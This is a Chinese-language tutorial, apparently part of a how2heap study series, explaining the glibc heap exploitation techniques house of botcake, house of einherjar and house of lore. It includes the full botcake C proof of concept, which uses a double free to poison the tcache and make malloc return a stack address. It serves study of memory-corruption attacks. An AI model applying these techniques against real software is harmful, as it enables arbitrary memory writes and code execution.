 ```yaml
---
title: 【how2heap】 botcake,einherjar,lore
index_img: img/article/how2heap1/backward_consolidate-1666247169487-3.png
excerpt: 针对glibc2.31及glibc2.35两个版本中的house of botcake, house of einherjar, house of lore三种方式进行讨论，其他版本可以根据特性进行类推，建议先对各种堆块的基本特性和数据结构做已了解之后进行学习。
---
```


> 本系列将针对glibc2.31及glibc2.35两个版本进行讨论，其他版本可以根据特性进行类推，建议先对各种堆块的基本特性和数据结构做已了解之后进行学习。

## house_of_botcake

house_of_botcake利用的是块的分割，使得只存在uaf漏洞的前提下实现堆块的溢出,达到获取任意地址的目的，下面我们用how2heap中的例子进行理解。

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    /*
     * This attack should bypass the restriction introduced in
     * https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d
     * If the libc does not include the restriction, you can simply double free the victim and do a
     * simple tcache poisoning
     * And thanks to @anton00b and @subwire for the weird name of this technique */

    // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // introduction
    puts("This file demonstrates a powerful tcache poisoning attack by tricking malloc into");
    puts("returning a pointer to an arbitrary location (in this demo, the stack).");
    puts("This attack only relies on double free.\n");

    // prepare the target
    intptr_t stack_var[4];
    puts("The address we want malloc() to return, namely,");
    printf("the target address is %p.\n\n", stack_var);

    // prepare heap layout
    puts("Preparing heap layout");
    puts("Allocating 7 chunks(malloc(0x100)) for us to fill up tcache list later.");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);
    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/
    
    // simple tcache poisoning
    puts("Launch tcache poisoning");
    puts("Now the victim is contained in a larger freed chunk, we can do a simple tcache poisoning by using overlapped chunk");
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;
    
    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);
    
    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");
    
    // note
    puts("Note:");
    puts("And the wonderful thing about this exploitation is that: you can free b, victim again and modify the fwd pointer of victim");
    puts("In that case, once you have done this exploitation, you can have many arbitary writes very easily.");

    return 0;
}
```

首先我们用7个chunk填满tcache

```c
// cause chunk overlapping
puts("Now we are able to cause chunk overlapping");
puts("Step 1: fill up tcache list");
for(int i=0; i<7; i++){
    free(x[i]);
}
```

之后free掉同样大小的prev chunk和a chunk，这时他们会在unsorted bin内合并为一个大chunk

```
puts("Step 2: free the victim chunk so it will be added to unsorted bin");
free(a);

puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
free(prev);
```

先申请一个chunk，然后利用uaf，对 a chunk再次free，让其进入tcache。此时，a chunk同时在tcache和unsorted bin 中。

```
puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
malloc(0x100);
/*VULNERABILITY*/
free(a);// a is already freed
/*VULNERABILITY*/
```

此时如果我们申请一个大一点的chunk，比如0x120，那么就会把prev的指针返回回来，并且可以对a chunk进行溢出，进而更改a chunk的fd，bk等等。



## house_of_einherjar

house of einherjar是一种特殊的堆利用手段，在存在堆溢出可以更改下一个chunk的PREV_INUSE位时，可以利用free的堆块合并，使用这种方式实现任意地址的控制。

![示意图](img/article/how2heap1/backward_consolidate-1666247169487-3.png)

### 溢出前状态

假设溢出前状态如下

![img](img/article/how2heap1/einherjar_before_overflow.png)

### 溢出

这里我们假设 p0 堆块一方面可以写 prev_size 字段，另一方面，存在 off by one 的漏洞，可以写下一个 chunk 的 PREV_INUSE 部分，那么

![img](img/article/how2heap1/einherjar_overflowing.png)

### 溢出后

**假设我们将 p1 的 prev_size 字段设置为我们想要的目的 chunk 位置与 p1 的差值**。在溢出后，我们释放 p1，则我们所得到的新的 chunk 的位置 `chunk_at_offset(p1, -((long) prevsize))` 就是我们想要的 chunk 位置了。

当然，需要注意的是，由于这里会对新的 chunk 进行 unlink ，因此需要确保在对应 chunk 位置构造好了 fake chunk 以便于绕过 unlink 的检测。

![img](img/article/how2heap1/einherjar_after_overflow-1666251341548-11.png)

在这种情况下，我们便可将fake chunk通过再次malloc获得

## house_of_lore

House of Lore 可以实现分配任意指定位置的 chunk，从而修改任意地址的内存。

实际过程就是控制smallbin的最后一个chunk的bk指针，以及fakechunk的fd指针完成双链表的构建既可两次malloc控制任意地址

